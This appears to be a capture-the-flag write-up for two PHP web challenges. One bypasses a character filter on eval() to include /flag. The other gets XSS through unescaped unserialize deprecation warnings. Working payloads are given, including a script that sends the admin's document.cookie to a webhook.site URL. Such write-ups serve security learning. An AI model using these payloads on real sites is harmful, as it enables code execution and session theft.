









## web/Evalgelist

The source code is

```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Evalgelist</title>
    <style>
        body {
            font-family: 'Courier New', monospace;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            margin: 0;
            padding: 20px;
            min-height: 100vh;
        }
        .container {
            max-width: 800px;
            margin: 0 auto;
            background: rgba(255, 255, 255, 0.95);
            border-radius: 15px;
            padding: 30px;
            box-shadow: 0 10px 30px rgba(0, 0, 0, 0.3);
        }
        h1 {
            color: #333;
            text-align: center;
            margin-bottom: 30px;
            text-shadow: 2px 2px 4px rgba(0, 0, 0, 0.1);
        }
        .warning {
            background: #fff3cd;
            border: 1px solid #ffeaa7;
            color: #856404;
            padding: 15px;
            border-radius: 8px;
            margin-bottom: 20px;
        }
        .input-group {
            margin-bottom: 20px;
        }
        label {
            display: block;
            margin-bottom: 8px;
            font-weight: bold;
            color: #555;
        }
        input[type="text"] {
            width: 100%;
            padding: 12px;
            border: 2px solid #ddd;
            border-radius: 8px;
            font-size: 16px;
            font-family: 'Courier New', monospace;
            background: #f8f9fa;
        }
        input[type="text"]:focus {
            outline: none;
            border-color: #667eea;
            background: white;
        }
        button {
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            color: white;
            padding: 12px 30px;
            border: none;
            border-radius: 8px;
            font-size: 16px;
            cursor: pointer;
            transition: transform 0.2s;
        }
        button:hover {
            transform: translateY(-2px);
        }
        .output {
            background: #f8f9fa;
            border: 2px solid #dee2e6;
            border-radius: 8px;
            padding: 20px;
            margin-top: 20px;
            font-family: 'Courier New', monospace;
            white-space: pre-wrap;
            max-height: 400px;
            overflow-y: auto;
        }
        .error {
            color: #dc3545;
            font-weight: bold;
        }
        .success {
            color: #28a745;
            font-weight: bold;
        }
        .info {
            background: #d1ecf1;
            border: 1px solid #bee5eb;
            color: #0c5460;
            padding: 15px;
            border-radius: 8px;
            margin-top: 20px;
        }
        .filtered {
            color: #6c757d;
            font-style: italic;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>🔒 Evalgelist - Try secure eval function</h1>
        
        <div class="warning">
            <strong>⚠️ Security Notice:</strong> This system uses advanced filtering to prevent malicious code execution. 
            Only safe PHP functions are allowed.
        </div>

        <form method="GET" action="">
            <div class="input-group">
                <label for="code">Enter PHP function name to validate:</label>
                <input type="text" id="code" name="input" placeholder="e.g., phpinfo, strlen, time">
            </div>
            <button type="submit">🔍 Validate Function</button>
        </form>

        <?php
        if (isset($_GET['input'])) {
            echo '<div class="output">';

            $filtered = str_replace(['$', '(', ')', '`', '"', "'", "+", ":", "/", "!", "?"], '', $_GET['input']);
            $cmd = $filtered . '();';
            
            echo '<strong>After Security Filtering:</strong> <span class="filtered">' . htmlspecialchars($cmd) . '</span>' . "\n\n";
            
            echo '<strong>Execution Result:</strong>' . "\n";
            echo '<div style="border-left: 3px solid #007bff; padding-left: 15px; margin-left: 10px;">';
            
            try {
                ob_start();
                eval($cmd);
                $result = ob_get_clean();
                
                if (!empty($result)) {
                    echo '<span class="success">✅ Function executed successfully!</span>' . "\n";
                    echo htmlspecialchars($result);
                } else {
                    echo '<span class="success">✅ Function executed (no output)</span>';
                }
            } catch (Error $e) {
                echo '<span class="error">❌ Error: ' . htmlspecialchars($e->getMessage()) . '</span>';
            } catch (Exception $e) {
                echo '<span class="error">❌ Exception: ' . htmlspecialchars($e->getMessage()) . '</span>';
            }
            
            echo '</div>';
            echo '</div>';
        }
        ?>
</body>
</html>
```

We can clearly see the vulnerability here. The filtering logic is:

```$filtered = str_replace(['$', '(', ')', '`', '"', "'", "+", ":", "/", "!", "?"], '', $_GET['input']);```

This attempts to block many critical characters used in command injection. However, the semicolon (;) is still allowed. That means we can inject multiple commands, and the result will still be evaluated by eval().



THE BIG PROBLEM: '(', ')' are banned so we can't pass the arguments to most of default functions. 

After a long time analyse, i can use some of the following functions that don't need '(', ')' like echo, require, include, ... and yeah include is potential. So what we will pass to this function? We already know flag is in '/flag' and all string quote are banned. BUTTTT '[', ']', '.' is still there, we need to find some default string variable and use one of their character to concat i try to google some of them and yeah these are what I can found: [https://dev.to/patricia1988hernandez2/understanding-php-predefined-constants-6db](https://dev.to/patricia1988hernandez2/understanding-php-predefined-constants-6db)

I try all of them and yeah we need only 5 letters at all is '/flag'

Try PHP_EXTENSION_DIR:



so we have /, l, a, g

Try PHP_SAPI:



and we have f and our payload is

```php
include PHP_EXTENSION_DIR[0].PHP_SAPI[0].PHP_EXTENSION_DIR[5].PHP_EXTENSION_DIR[8].PHP_SAPI[6]; time
```

Time to capture the flag



### Other interesting solutions

```php
include <<<___%0D\x2fflag%0D___;%0Da
```

```php
include DIRECTORY_SEPARATOR . flag;#
```

```php
include x__X_ ^ W9398;# (genius)
```

```php
echo require<<<EOF%0aphp\72\57\57filter\57read=convert.base64-encode\57resource=\57flag%0aEOF; time
```

## web/Silent Profit

```
.
└── web-silent-profit
    ├── bot
    │   ├── bot.js
    │   ├── Dockerfile
    │   ├── package.json
    │   └── package-lock.json
    ├── docker-compose.yml
    └── html
        └── index.php

4 directories, 6 files
```

The challenge is about XSS, but we only have an index.php file available for exploitation. Here’s the content of index.php:

```php
<?php 
show_source(__FILE__);
unserialize($_GET['data']);
```

We already know that unserialize() converts a serialized string into a PHP object or value of any type. Our goal is to execute a js consle command like alert() on this page. But how ? The key to solving this is the unserialize function and how it works.

I initially attempted to trigger an error using an enum serialization. Although the string I submitted appeared on the page, no script was executed.



As expected, the output was HTML-encoded before rendering:



We will find out how this is displayed from this PHP source code:

[https://github.com/php/php-src/blob/cea09183520224b055343026c5cf2c3219eedb10/ext/standard/var_unserializer.re#L1375](https://github.com/php/php-src/blob/cea09183520224b055343026c5cf2c3219eedb10/ext/standard/var_unserializer.re#L1375)

```c
if (colon_ptr == NULL) {
    php_error_docref(NULL, E_WARNING, "Invalid enum name '%.*s' (missing colon)", (int) len, str);
    return 0;
}
```

The error is generated using php_error_docref. Let’s find its implementation:

[https://github.com/php/php-src/blob/cea09183520224b055343026c5cf2c3219eedb10/main/main.c#L1178-L1188](https://github.com/php/php-src/blob/cea09183520224b055343026c5cf2c3219eedb10/main/main.c#L1178-L1188)


```c
#define php_error_docref_impl(docref, type, format) do {\
		va_list args; \
		va_start(args, format); \
		php_verror(docref, "", type, format, args); \
		va_end(args); \
	} while (0)

PHPAPI ZEND_COLD void php_error_docref(const char *docref, int type, const char *format, ...)
{
	php_error_docref_impl(docref, type, format);
}
```

The actual message is passed into php_verror(). Within php_verror(), if HTML errors are enabled, the message is escaped: https://github.com/php/php-src/blob/cea09183520224b055343026c5cf2c3219eedb10/main/main.c#L1085C2-L1089C3

```c
if (PG(html_errors)) {
    replace_origin = escape_html(origin, origin_len);
    efree(origin);
    origin = ZSTR_VAL(replace_origin);
}
```

So are there any other way ? I discovered that another type of error mechanism exists in the Zend Engine : https://github.com/php/php-src/blob/cea09183520224b055343026c5cf2c3219eedb10/Zend/zend.c#L1665C1-L1677C2. 

```c
#define zend_error_impl(type, format) do { \
    zend_string *filename; \
    uint32_t lineno; \
    va_list args; \
    get_filename_lineno(type, &filename, &lineno); \
    va_start(args, format); \
    zend_error_va_list(type, filename, lineno, format, args); \
    va_end(args); \
} while (0)

ZEND_API ZEND_COLD void zend_error(int type, const char *format, ...) {
	zend_error_impl(type, format);
}
```

According to this PHP Internals review https://wiki.php.net/internals/review_comments#:~:text=b%3B%0A%20%20%0A%20%20return%20sum%3B%0A%7D-,Don%27t%20use%20zend_error,-zend_error()%20should , zend_error() is not HTML-escaped.

Let’s verify that: https://github.com/php/php-src/blob/cea09183520224b055343026c5cf2c3219eedb10/Zend/zend.c#L1601C1-L1609C1

```c
static ZEND_COLD void zend_error_va_list(
    int orig_type, zend_string *error_filename, uint32_t error_lineno,
    const char *format, va_list args)
{
    zend_string *message = zend_vstrpprintf(0, format, args);
    zend_error_zstr_at(orig_type, error_filename, error_lineno, message);
    zend_string_release(message);
}
```

I found that the var_unserializer file uses zend_error() to trigger a deprecation warning: https://github.com/php/php-src/blob/cea09183520224b055343026c5cf2c3219eedb10/ext/standard/var_unserializer.re#L649

```c
zend_error(E_DEPRECATED, "Creation of dynamic property %s::$%s is deprecated",
```

So what is a dynamic property?

According to this article: https://php.watch/versions/8.2/dynamic-properties-deprecated
Starting from PHP 8.2, assigning a non-declared property to an object that doesn’t allow dynamic properties will throw a E_DEPRECATED warning.



So let start exploiting by using our payload as Error. This sets an undeclared property on the Error class. and bumphh

```
O:5:"Error":1:{s:25:"<script>alert(1)</script>";N;}
```



Let’s wrap the payload to capture the flag from the admin’s cookie:

```
O:5:"Error":1:{s:109:"<script>fetch(%27https://webhook.site/12909c1d-2e94-4955-bd76-bd7640e3c0ec/?%27.concat(document.cookie))</script>";N;}
```



## r3note

Updating...